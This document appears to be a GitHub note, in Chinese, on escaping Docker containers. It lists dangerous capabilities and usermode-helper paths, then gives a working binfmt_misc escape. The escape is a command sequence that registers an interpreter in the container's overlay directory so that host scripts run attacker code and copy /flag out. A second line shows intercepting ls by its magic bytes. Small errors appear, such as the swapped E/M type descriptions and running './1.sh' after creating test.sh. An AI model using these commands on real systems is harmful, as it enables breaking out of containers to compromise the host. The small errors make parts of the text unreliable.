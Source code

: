 # Container-escape-in-2021

特权cap实现容器逃逸：

- CAP_SYS_MODULE 
- CAP_SYS_ADMIN 
- CAP_DAC_READ_SEARCH



通过usermod helper逃逸：

- /proc/sys/kernel/modprobe 
- /proc/sys/kernel/core_pattern 
- /sys/kernel/uevent_helper 
- /sys/fs/cgroup/*/release_agent 
- /proc/sys/fs/binfmt_misc

## binfmt_misc容器逃逸

环境，将`binfmt_misc`挂载在容器中：

```bash
docker run -it --name binfmt_misc --security-opt apparmor:unconfined --cap-add SYS_ADMIN ubuntu:22.04

mount binfmt_misc -t binfmt_misc /proc/sys/fs/binfmt_misc
mount -o rw,remount /proc/sys
```

Linux内核有一个名为Miscellaneous Binary Format（binfmt_misc）的机制，可以通过要打开文件的特性来选择到底使用哪个程序来打开。这种机制可以通过文件的扩展名或文件开始位置的特殊的字节（Magic Byte）来判断应该如何打开文件。



通过写`/proc/sys/fs/binfmt_misc/register`来注册一个拦截器，拦截器将自动拦截magic byte为我们设置的字节的可执行文件，交给拦截器来执行，从来实现容器逃逸。

这种容器逃逸需要拦截的是宿主机的可执行文件。

其 binfmt 的格式如下：

```
name:type:offset:magic:mask:interpreter:flags
```

这个配置中每个字段都用冒号 : 分割，某些字段拥有默认值可以跳过，但是必须保留相应的冒号分割符。 各个字段的意义如下：

- name：规则名
- type：表示如何匹配被打开的文件，值为 E 或 M 。E 表示根据扩展名识别，而 M 表示根据文件特定位置的Magic Bytes来识别
- offset：type字段设置成 M 之后有效，表示查找Magic Bytes的偏移，默认为0
- magic：表示要匹配的Magic Bytes，type字段为 M 时，表示文件的扩展名，扩展名是大小写敏感的，不需要包含 .。type字段为 E 时，表示Magic Bytes，其中不可见字符可以通过 \xff 的方式来输出
- mask：type字段设置成 M 之后有效，长度与Magic Bytes的长度一致。如果某一位为1，表magic对应的位匹配，为0则忽略。默认为全部匹配
- interpreter：启动文件的程序，需要是绝对路径
- flags: 可选字段，控制interpreter打开文件的行为。共支持 POCF 四种flag。

```bash
#容器上执行
mount|grep -i "upperdir"
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/OIPS7XI32CDHOFUSV7QR5IUSYD:/var/lib/docker/overlay2/l/ZR2BR7ZSSDQWVKIYYV4CDWAAMN,upperdir=/var/lib/docker/overlay2/2765b06fd75fd86370793d20a2f7fd41c0d754ccb4d9864442bfe7d5c2441081/diff,workdir=/var/lib/docker/overlay2/2765b06fd75fd86370793d20a2f7fd41c0d754ccb4d9864442bfe7d5c2441081/work)
#容器上执行
echo ":feng:M::\x23\x21\x2f\x62\x69\x6e\x2f\x73\x68::/var/lib/docker/overlay2/2765b06fd75fd86370793d20a2f7fd41c0d754ccb4d9864442bfe7d5c2441081/diff/tmp/exploit:" > /proc/sys/fs/binfmt_misc/register 
#容器上执行
echo '#!/bin/bash'>/tmp/exploit
#容器上执行
echo 'cat /flag > /var/lib/docker/overlay2/2765b06fd75fd86370793d20a2f7fd41c0d754ccb4d9864442bfe7d5c2441081/diff/tmp/flag' >> /tmp/exploit
#容器上执行
chmod +x /tmp/exploit
#宿主机上执行
echo '#!/bin/sh'> /tmp/test.sh
#宿主机上执行
echo 'echo test'>> /tmp/test.sh
#宿主机上执行
chmod +x /tmp/test.sh
#宿主机上执行
./1.sh
#容器上执行
cat /tmp/flag
```



拦截ls的例子：

```bash
echo ":feng:M:208:\xd0\x35::/var/lib/docker/overlay2/2765b06fd75fd86370793d20a2f7fd41c0d754ccb4d9864442bfe7d5c2441081/diff/tmp/exploit:" > /proc/sys/fs/binfmt_misc/register 
```

因为ls这个可执行文件偏移208个字节为`\xd0\x35`。如果要拦截其他可执行文件同理。

